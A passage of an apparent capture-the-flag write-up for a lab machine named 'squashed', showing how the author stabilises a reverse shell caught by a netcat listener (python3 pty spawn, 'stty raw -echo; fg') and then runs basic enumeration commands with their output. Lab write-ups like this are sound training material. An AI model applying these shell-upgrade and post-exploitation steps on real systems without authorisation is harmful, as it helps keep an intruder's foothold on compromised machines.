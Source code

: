 Next basic `bash` spawn and thing to get all the goodies for the terminal:

```bash
$ python --version
/bin/sh: 2: python: not found
$ python3 --version
Python 3.8.10
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
alex@squashed:/$ ^Z
zsh: suspended  nc -nlvp 9002
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9002

alex@squashed:/$ export TERM=xterm
```
Sources for "improved shell":    
Niko Heiskanen himself.   
[Many of IppSec's videos](https://www.youtube.com/@ippsec/search?query=improved%20shell)   


Then stuff i always do, to verify "who and where":   
```bash
alex@squashed:/$ id
uid=2017(alex) gid=2017(alex) groups=2017(alex)
alex@squashed:/$ whoami
alex
alex@squashed:/$ pwd
/
alex@squashed:/$ ls -la
total 84
drwxr-xr-x  20 root root  4096 Oct 21 14:57 .
drwxr-xr-x  20 root root  4096 Oct 21 14:57 ..
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Oct 31 10:22 boot
drwxr-xr-x   2 root root  4096 Oct 21 14:57 cdrom
drwxr-xr-x  17 root root  3960 Apr 16 21:12 dev
drwxr-xr-x 137 root root 12288 Oct 31 10:20 etc
drwxr-xr-x   4 root root  4096 Oct 21 14:57 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 May  7  2020 lost+found
drwxr-xr-x   2 root root  4096 Apr 23  2020 media
drwxr-xr-x   2 root root  4096 Oct 21 14:57 mnt
drwxr-xr-x   2 root root  4096 Oct 21 14:57 opt
dr-xr-xr-x 299 root root     0 Apr 16 21:12 proc
drwx------  18 root root  4096 Dec 27 15:38 root
drwxr-xr-x  35 root root  1060 Apr 17 01:51 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct 21 14:57 snap
drwxr-xr-x   2 root root  4096 Oct 21 14:57 srv
dr-xr-xr-x  13 root root     0 Apr 16 21:12 sys
drwxrwxrwt   2 root root  4096 Apr 17 06:21 tmp
drwxr-xr-x  14 root root  4096 Oct 21 14:57 usr
drwxr-xr-x  16 root root  4096 Oct 21 14:57 var
```
